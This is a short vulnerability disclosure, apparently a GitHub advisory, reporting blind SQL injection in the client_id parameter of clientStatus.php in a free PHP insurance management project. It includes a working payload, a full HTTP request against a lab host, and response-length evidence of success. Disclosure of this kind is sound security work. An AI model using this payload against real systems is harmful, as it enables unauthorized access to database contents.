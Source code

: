 # Insurance Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

vendors: https://itsourcecode.com/free-projects/php-project/insurance-management-system-project-in-php-free-download/

Vulnerability File: /insurance/clientStatus.php?client_id=

Vulnerability location:  /insurance/clientStatus.php?client_id=,client_id

[+] Payload: /insurance/clientStatus.php?client_id=1511986256%27%20and%20length(database())%20=4--+ // Leak place ---> client_id

Current database name: lims,length is 4

```sql
GET /insurance/clientStatus.php?client_id=1511986256%27%20and%20length(database())%20=4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=tmbv0mt5ff9hphhe0mtv4sghfq
Connection: close
```

When length (database ()) = 3, Content-Length: 5429

![image](https://user-images.githubusercontent.com/54017627/166145039-bbea59e7-c63c-42df-8e03-7d94e414e764.png)

![image](https://user-images.githubusercontent.com/54017627/166145044-9dfbfbb9-632d-48dc-acc1-0977b6d77a80.png)

When length (database ()) = 4, Content-Length: 7588

![image](https://user-images.githubusercontent.com/54017627/166144999-3d5bcfe7-94aa-4bfa-8b53-eca704bdb7d0.png)

![image](https://user-images.githubusercontent.com/54017627/166145009-e99f4a3c-dae8-45ff-878b-ca60698e88aa.png)



